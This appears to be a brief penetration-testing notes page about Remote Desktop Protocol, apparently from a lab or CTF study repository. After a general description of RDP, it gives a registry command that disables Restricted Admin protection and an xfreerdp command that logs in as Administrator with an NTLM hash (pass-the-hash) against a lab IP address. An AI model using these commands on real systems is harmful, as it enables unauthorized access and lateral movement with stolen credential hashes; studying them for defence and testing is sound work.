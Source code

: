 Remote Desktop Protocol (RDP) is a Microsoft-developed proprietary protocol that enables users to access a graphical interface on a remote computer over a network. It serves as a prominent administration tool, empowering system administrators and managed service providers (MSPs) to remotely control multiple systems as if they were physically present. However, this convenience comes with a drawback, as RDP can become a potential entry point for cyberattacks, emphasizing the importance of secure configurations and precautions.


DisableRestrictedAdmin Must be set to 0 to allow RPD with PTH.

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

### Logging in
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7704e78f-7eee-4558-bebe-f7f26e385a29)

```
xfreerdp  /v:10.129.204.23 /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453
```
